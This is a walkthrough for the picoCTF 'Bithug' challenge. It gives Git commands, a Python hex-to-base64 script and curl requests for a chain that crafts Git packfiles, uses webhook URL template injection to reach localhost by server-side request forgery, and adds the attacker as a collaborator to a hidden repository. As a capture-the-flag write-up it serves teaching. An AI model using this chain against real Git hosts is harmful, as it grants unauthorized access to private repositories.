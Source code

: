# Full Step-by-Step Walkthrough for picoCTF "Bithug" Challenge
I have finished the "Bithug" Challenge (Hard level) from PicoCTF, and here is my walkthrough for you:
#
This walkthrough assumes you have:
- Access to the challenge instance (`http://venus.picoctf.net:<port>` – replace `<host>` and `<port>` accordingly).
- Tools like Wireshark (for packet capture), a hex editor (e.g., Hex Fiend or online tools), CyberChef (for base64 encoding), and Git.
- Basic knowledge of Git and HTTP.

The exploit chain:
1. Capture Git packfiles for adding a collaborator and triggering the webhook.
2. Create a webhook with template injection to SSRF a localhost request.
3. Trigger the webhook to add yourself as a collaborator to `/_/zwade.git`.
4. Clone the target repo and extract the flag.
#
## Step 1: Register and Set Up Your Repository
1. Navigate to the BitHug web interface (`http://<host>:<port>`).
2. Register a new user account. Use a simple username like hacker and password like pass. Log in.
3. Create a new repository named exploit (this will be your victim repo for webhooks).
4. Clone the repository locally:
```text
git clone http://hacker@<host>:<port>/hacker/exploit.git
cd exploit
```
  Enter your password when prompted. This sets up basic auth for Git operations.
#
## Step 2: Capture the "Add Collaborator" Packfile (Payload A)
This packfile will be used in the webhook body to update `access.conf` in `/_/zwade.git`, adding your username (`hacker`) as a collaborator. 
1. In your local `exploit repo`, create the collaborator commit:
```text
git checkout --orphan collab-branch
echo "hacker" > access.conf
git add access.conf
git commit -m "Add hacker as collaborator"
```
2. Set up packet capture to grab the HTTP POST body for `git-receive-pack`:
   - Start Wireshark and filter for HTTP traffic to `<host>:<port>`.
   - Or use `tcpdump` on your interface: `sudo tcpdump -i any -w capture.pcap host <host> and port <port>`.

3. Push to refs/meta/config (this triggers the receive-pack request):
```text
git push origin @:refs/meta/config
```
  Enter credentials if prompted.

4. In Wireshark:
      - Find the POST request to `/hacker/exploit.git/git-receive-pack`.
      - Follow the TCP/HTTP stream.
      - Switch to "C Arrays" or "Hex" view.
      - Copy the entire raw body (starting from the packfile header, e.g., `0030...` up to the end of the zlib-compressed pack). It should look like a long hex string (around 500-1000 bytes).

Example snippet (yours will vary based on commit hash; full example from a writeup):
```text
0x30, 0x30, 0x39, 0x34, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30,
0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30, 0x30,
0x30, 0x30, 0x30, 0x30, 0x30, 0x20, 0x65, 0x37, 0x38, 0x36, 0x64, 0x65, 0x62, 0x61, 0x39, 0x36,
... (continues with new OID, "refs/meta/config\0", capabilities like "report-status side-band-64k agent=git/2.25.10000PACK", then pack data)
```
5. Paste the hex into CyberChef or a Python script to convert to binary, then base64-encode it (webhooks store bodies as base64). Python example:
```python
import binascii
import base64

hex_data = "30393034303030303030303030303030303030303030303030303030303030303030303030303020..."  # Your full hex string without 0x
binary_data = binascii.unhexlify(hex_data)
print(base64.b64encode(binary_data).decode('utf-8'))
```
Save the base64 output as `payload_a_b64` (`MDA5NDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAgZTc4NmRlYmE5NjcwNDM0NTQxYzBlNmY2YTQwZTliZDI2ZjE4YTk4YSByZWZzL21ldGEvY29uZmlnACByZXBvcnQtc3RhdHVzIHNpZGUtYmFuZC02NGsgYWdlbnQ9Z2l0LzIuMjUuMTAwMDBQQUNLAA...`).
#
## Step 3: Capture and Craft the "Trigger" Packfile (Payload B)
This packfile triggers the webhook by pushing to a malicious `ref` that injects the SSRF URL via template `{{ref}}`.
1. In your local exploit repo, create a commit with a long branch name (to make hex editing easier):
```text
git checkout -b long-trigger-branch
echo "trigger" > trigger.txt
git add trigger.txt
git commit -m "Trigger commit"
```
2. Capture the push again with Wireshark/tcpdump:
```text
git push origin long-trigger-branch
```
3. Extract the hex body from the POST to `/git-receive-pack` (similar to Step 2).The structure is:
     - 4-byte length (e.g., `0034` for a 52-char line).
     - `<40 zero bytes> <40-char new OID> <ref string>\0 <capabilities>\0 <zlib pack>`.

Example hex snippet:
```text
0034000000000000000000000000000000000000000000000000000000000000000000000000 <new_oid> refs/heads/long-trigger-branch\0 report-status side-band-64k agent=git/2.25.10000PACK\0 <pack>
```
4. Open in a hex editor:
    - Locate the `<ref string>` (after the second 40-char hex block, before `\0`).
    - Replace it with: `127.0.0.1:1823/_/zwade.git/git-receive-pack?a` (length: 41 chars).
    - Update the 4-byte length prefix at the start: Convert new line length (old length + delta) to hex, zero-padded (e.g., if new line is 81 chars total, length=81=0x51, so `0051`).
    - Keep everything else (OIDs, capabilities, pack) intact – the server only uses the `ref` for templating.

5. Convert the edited hex back to binary (as in Step 2's Python script), but do not base64 – you'll POST this raw.
#
## Step 4: Create the Malicious Webhook
1. Use curl or Burp Suite to POST to the webhook endpoint (authenticate with your session cookie or Basic Auth):
```text
curl -X POST http://<host>:<port>/hacker/exploit.git/webhooks \
  -H "Authorization: Basic $(echo -n 'hacker:pass' | base64)" \
  -H "Content-Type: application/json" \
  -d '{
    "url": "http://{{ref}}.com",
    "body": "'$payload_a_b64'",
    "contentType": "application/x-git-receive-pack-request"
  }'
```
  - The URL uses template injection: {{ref}} will be replaced with the trigger ref (e.g., 127.0.0.1:1823/_/zwade.git/git-receive-pack?a).
  - Filters block direct localhost/port 80, but templating bypasses this during execution.
  - Response: {} if successful.
#
## Step 5: Trigger the Webhook (Execute SSRF)
POST the crafted trigger packfile (Payload B) to your repo's receive-pack endpoint to simulate a push:
```text
curl -X POST http://<host>:<port>/hacker/exploit.git/git-receive-pack \
  --data-binary @trigger_packfile.bin \
  -H "Authorization: Basic $(echo -n 'hacker:pass' | base64)" \
  -H "Content-Type: application/x-git-receive-pack-request"
```
  - Create `trigger_packfile.bin` from your edited hex: `xxd -r -p edited.hex > trigger_packfile.bin`.
  - The server processes this as a push: Parses `ref` as the SSRF URL, formats webhook URL to `http://127.0.0.1:1823/_/zwade.git/git-receive-pack?a.com`.
  - It then POSTs Payload A (decoded) to that URL. Since it's from localhost, you get admin privileges, allowing the update to `/_/zwade.git`'s `access.conf`.
#
## Step 6: Access the Target Repository and Get the Flag
1. Now that you're a collaborator, clone the hidden repo:
```text
git clone http://hacker@<host>:<port>/_/zwade.git
cd zwade
```
2. Read the flag
```text
cat README.md
```
Output: `picoCTF{good_job_at_gitting_good}`
#
# Troubleshooting Tips
- Hex editing errors: Ensure the line length is correctly calculated (total bytes of `<old> <new> <ref>\0`). Test by pushing a manually crafted simple pack to your own repo.
- Capture issues: If Wireshark is tricky remotely, run the challenge locally via Docker (from source) and log `req.body.toString('hex')` in `git-api.ts`.
- Port/Host: The internal port is 1823 (from Dockerfile); adjust SSRF ref if needed.
- Variations: Commit hashes/OIDs change; always recapture for accuracy.

This exploit combines SSRF, template injection, and Git protocol abuse! If you hit issues, double-check hex lengths or share your captured packfile hex for debugging.




























